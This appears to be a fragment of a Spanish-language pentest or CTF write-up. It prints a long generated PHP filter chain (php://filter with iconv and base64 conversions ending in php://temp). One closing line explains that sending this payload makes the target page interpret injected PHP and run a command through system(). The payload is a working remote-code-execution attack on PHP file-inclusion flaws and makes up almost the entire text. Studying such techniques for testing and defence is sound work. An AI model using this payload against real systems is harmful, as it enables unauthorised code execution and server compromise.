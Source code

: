Nos genera todo esto

```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp  
```
Cuando nosotros enviemos el payload la pagina interpretara el PHP y ejecutara el comando indicando en **system**
